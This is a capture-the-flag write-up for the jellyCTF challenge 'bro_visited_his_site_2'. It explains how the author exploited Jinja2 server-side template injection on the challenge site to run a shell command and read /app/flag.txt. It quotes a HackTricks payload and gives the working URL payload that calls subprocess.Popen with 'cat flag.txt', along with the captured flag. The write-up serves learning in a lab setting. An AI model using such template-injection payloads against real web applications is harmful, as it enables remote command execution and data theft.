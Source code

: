 # bro_visited_his_site_2

## Difficulty

Easy

## Points earned

453

## Description

> ok, but can you get /app/flag.txt
> 
> note: this is not the flask secret - that's the first bro_visited_his_site
> 
> 20 point hint: list of techniques for the vuln class
> 
> Author: arepi
> 
> https://bro-visited-his-site.jellyc.tf/

![bro_visited_his_site website input](./images/bro_visited_his_site_input.png "bro_visited_his_site input")

![bro_visited_his_site website output](./images/bro_visited_his_site_output.png "bro_visited_his_site output")

## Solution

Somehow we need to execute a shell command to print the contents of `flag.txt`. Doing some Googling about template injection (https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), I found out that I needed to access the global object and use Popen to read `flag.txt`. This is the snippet that caught my attention:

> ### RCE
> ```python
> # The class 396 is the class <class 'subprocess.Popen'>
> {{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,> stdout=-1).communicate()[0].strip()}}
> ```

When we visit `https://bro-visited-his-site.jellyc.tf/response?word={{dict.__base__.__subclasses__()`, we are greeted with a massive list of classes. The index of Popen here isn't the same as it is in the HackTricks article above, so I had to look for it myself.

After finding Popen's index, I plugged it into the rest of the URL to get the flag:

```python
https://bro-visited-his-site.jellyc.tf/response?word={{dict.__base__.__subclasses__()[520]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

![bro_visited_his_site_2 solution](./images/bro_visited_his_site_2_sol.png "bro_visited_his_site_2 solution")

## Flag

`jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}`